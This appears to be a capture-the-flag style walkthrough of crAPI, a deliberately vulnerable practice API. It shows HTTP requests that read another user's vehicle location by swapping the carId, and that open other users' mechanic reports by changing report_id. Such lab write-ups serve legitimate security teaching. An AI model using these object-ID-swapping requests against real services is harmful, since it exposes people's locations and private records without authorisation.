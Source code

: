 * Find an API endpoint that receives a vehicle ID and returns information about it.

```http
GET /identity/api/v2/vehicle/79511fa6-aa61-4985-b659-044446de8cd6/location HTTP/1.1
Host: crapi.apisec.ai
```

```json
{"carId":"79511fa6-aa61-4985-b659-044446de8cd6","vehicleLocation":{"id":6,"latitude":"31.9726318","longitude":"34.7958503"},"fullName":"hadil"}

```


replace your carId number in the URL,  with that of another user, and now you have another user's location & vehicle info

### [ ] Challenge 2 - Access mechanic reports of other users

crAPI allows vehicle owners to contact their mechanics by submitting a "contact mechanic" form. This challenge is about accessing mechanic reports that were submitted by other users.

* Analyze the report submission process

* Find an hidden API endpoint that exposes details of a mechanic report

* Change the report ID to access other reports

<br>

**The report submission**
```http
 POST /workshop/api/merchant/contact_mechanic HTTP/1.1
Host: crapi.apisec.ai

{"mechanic_code":"TRAC_JME","problem_details":"Also, when I bought this car, it smelled like a dirty sock. Pls fix","vin":"6CZTY05UVQT584223","mechanic_api":"http://crapi.apisec.ai/workshop/api/mechanic/receive_report","repeat_request_if_failed":false,"number_of_repeats":1}
```
<br>

Resp
```json
{"response_from_mechanic_api":{"id":75,"sent":true,"report_link":"http://crapi.apisec.ai/workshop/api/mechanic/mechanic_report?report_id=75"},"status":200}
```
<br>

The hidden endpoint you need to access is displayed in the response, you will need to create a custom request. and access a `report_id` other than your own.

```http
GET /workshop/api/mechanic/mechanic_report?report_id=60 HTTP/1.1
Host: crapi.apisec.ai

```
<br>
